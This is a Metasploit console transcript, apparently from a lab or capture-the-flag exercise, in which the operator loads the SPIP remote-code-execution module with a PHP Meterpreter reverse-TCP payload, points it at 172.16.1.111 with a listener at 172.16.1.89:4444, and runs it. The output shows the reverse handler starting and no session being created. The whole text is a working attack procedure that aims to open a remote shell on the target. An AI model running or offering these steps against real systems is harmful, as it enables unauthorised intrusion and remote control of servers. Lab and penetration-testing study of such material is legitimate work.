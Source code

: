 ```bash
Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/webapp/spip_rce_form

msf6 > use 1
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/spip_rce_form) > show options 

Module options (exploit/unix/webapp/spip_rce_form):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit
                                         .html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to SPIP application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0
                                       .0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (PHP In-Memory)



View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/spip_rce_form) > set lhost eth0
lhost => 172.16.1.89
msf6 exploit(unix/webapp/spip_rce_form) > set RHOSTS 172.16.1.111
RHOSTS => 172.16.1.111
msf6 exploit(unix/webapp/spip_rce_form) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 172.16.1.89:4444 
```